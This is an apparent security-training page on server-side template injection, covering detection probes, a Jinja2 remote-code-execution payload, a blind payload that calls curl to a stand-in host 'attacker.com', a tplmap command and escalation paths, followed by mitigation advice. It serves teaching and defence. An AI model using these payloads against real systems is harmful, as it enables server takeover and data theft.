

# Server-Side Template Injection (SSTI)

Inject template syntax for code execution.

## Overview Diagram

<div class="sr-diagram" markdown="1">



</div>

## How It Works

Server-Side Template Injection occurs when user input is embedded into a server-side template engine and interpreted as template syntax rather than static text. Unlike XSS (browser), SSTI executes on the server—often leading to remote code execution.

Common engines:

- **Jinja2** (Python/Flask)
- **Twig** (PHP)
- **Freemarker/Velocity** (Java)
- **ERB** (Ruby)
- **Handlebars** (Node, when server-rendered)

Vulnerability arises when applications use templates for dynamic emails, error pages, or "customizable" user dashboards and pass raw user input into `render()` or equivalent:

```python
template = f"Hello {user_input}"  # dangerous if user_input contains {{ }}
return render_template_string(template)
```

Detection often starts with polyglot probes like `{{7*7}}` returning `49` in the response.

## Exploitation

**Detection**

```
{{7*7}}
${7*7}
<%= 7*7 %>
#{7*7}
```

Different engines respond differently; identify engine from behavior and error messages.

**Jinja2 RCE example (lab/authorized)**

```python
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

**Attack flow**

```
User input in template → engine evaluates expressions → file read / command execution on app server
```

**Blind SSTI**

When output is not reflected, use time-based payloads or out-of-band callbacks:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl attacker.com').read() }}
```

**Tools**

```bash
tplmap -u 'https://target.com/page?name=test'
```

**Escalation paths**

- Read config files and cloud credentials
- Reverse shell from app container
- Pivot to internal network from compromised app tier

## Defense & Mitigation

**Never render user input as template source**. Pass user data only as template **context variables** with fixed templates stored on disk.

**Sandboxing**

- Use engine sandbox modes where available; understand limitations—many "sandboxes" are bypassable.
- Prefer logic-less templates or static generation for user-customizable content.

**Input handling**

- Strict allow-lists for user-controlled display fields.
- Separate admin-only template editing behind strong authorization and audit.

**Detection**

- Scan with template polyglots in QA.
- Code review for `render_template_string`, `eval`, dynamic `Template()` constructors.

**Incident response**

- SSTI RCE equals full application compromise—rotate secrets, rebuild containers, review lateral movement.

## Methodology

- [ ] Detect template engine with polyglot probes
- [ ] Escalate to read files or execute commands
- [ ] Test blind SSTI via out-of-band channels
- [ ] Identify sandbox escapes per engine

## Tools

| Tool | Usage |
|------|-------|
| `tplmap` | [Server-side template injection](../../TOOLS_GUIDE.md#tplmap) |
| `burp` | [Intercept, repeater & scanner](../../TOOLS_GUIDE.md#burp-suite) |

## Resources

- [PortSwigger SSTI](https://portswigger.net/web-security/server-side-template-injection)

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
